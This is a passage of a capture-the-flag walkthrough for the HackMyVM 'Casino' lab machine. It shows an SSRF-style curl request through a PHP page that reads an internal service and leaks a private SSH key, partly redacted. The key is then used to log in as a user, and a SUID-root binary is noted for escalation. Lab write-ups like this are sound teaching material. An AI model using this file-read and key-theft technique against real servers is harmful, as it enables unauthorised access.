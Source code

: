 The directory has an index page that reveals a potential username on the target system and also the potential presence of an  SSH key on the server. Let's try to access the SSH key in this directory. 
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino]
└─$ curl -s http://10.0.2.26/casino/explainmepls.php?learnabout=127.0.0.1:6969/codebreakers/shimmer_rsa -H "Cookie: PHPSESSID=28tsm0jqf10c7jmvdudv4pok60"  | html2text 
File "-", line 32, column 30: Levels of opening and closing headings don't match
Games
***** Welcome pentester *****
Current money: 0$
Log out
****** LEARN HOW TO PLAY FIRST ;) ******
-----BEGIN OPENSSH PRIVATE KEY----
- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAyazv9re1BpLFcPmH6jKbg7kjTItNYfNlRBtfpS93ahPdrBOHJwYJ
<SNIP>
olLBfy03QWwkulBGaHUhUbjyF1sy1w+5W0I6Fy11rj8AtQCWlWEeJ5IeOubgPB134lmXSE
5JYqg0CzdThLWdAAAADnNoaW1tZXJAY2FzaW5vAQIDBA== -----END OPENSSH PRIVATE KEY----
-
© 2023 Binary Bet Casino. All rights reserved
```

The SSH key was indeed stored in this directory. We can copy this SSH key into a file and login as Shimmer.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ nano shimmer_rsa

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ chmod 600 shimmer_rsa 

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ ssh shimmer@10.0.2.26 -i shimmer_rsa                                                                                                                                                                
The authenticity of host '10.0.2.26 (10.0.2.26)' can't be established.
<SNIP>
Last login: Wed Jun 14 17:24:28 2023 from 192.168.1.71
shimmer@casino:~$ ls
pass  user.txt
```
Now that we have a foothold, we can start our local enumeration on the target.


## Post Exploitation 

In the user's home directory, we can see a binary named *pass* with the SUID bit set as root. 
```bash
shimmer@casino:~$ ls -lh
total 24K
-rwsr-xr-x 1 root root 17K jun 14  2023 pass
-rw-r--r-- 1 root root  17 jun 14  2023 user.txt
shimmer@casino:~$ ./pass 
Passwd: 
Incorrect pass
```
